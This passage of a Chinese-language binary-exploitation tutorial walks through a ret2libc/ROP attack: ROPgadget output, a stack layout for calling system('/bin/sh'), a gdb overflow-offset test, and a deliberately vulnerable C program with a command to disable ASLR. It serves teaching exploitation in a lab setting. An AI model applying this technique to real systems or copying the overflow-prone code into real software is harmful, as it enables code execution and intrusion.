 通过`ROPgadget --binary vuln |less`查找gadget

```
...skipping...
0x00000000004006c3 : pop rdi ; ret
0x00000000004006c1 : pop rsi ; pop r15 ; ret
```

我们需要在栈空间进行如下构建

```
 _____________
|     AAAA    |
|-------------|
| ........... |
|-------------|
| rerutn addr |pop rdi; ret;
|-------------|
|     addr    |pointer to "/bin/sh" gets popped into rdi
|-------------|
|     addr    |address of system()
|-------------|
|   ........  |
|_____________|
```

offset

```
gdb vuln
r `python -c 'print "A"*270'`
```

结果

```
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()

```

现在的问题是binary中的`pop rdi ; ret`地址为`0x00000000004006c3`,`strcpy(buf,argv[1])`没有把\x00放进去,只能换个代码演示...

```c
/* Compile: gcc -fno-stack-protector ret2libc.c -o ret2libc      */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space     */

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
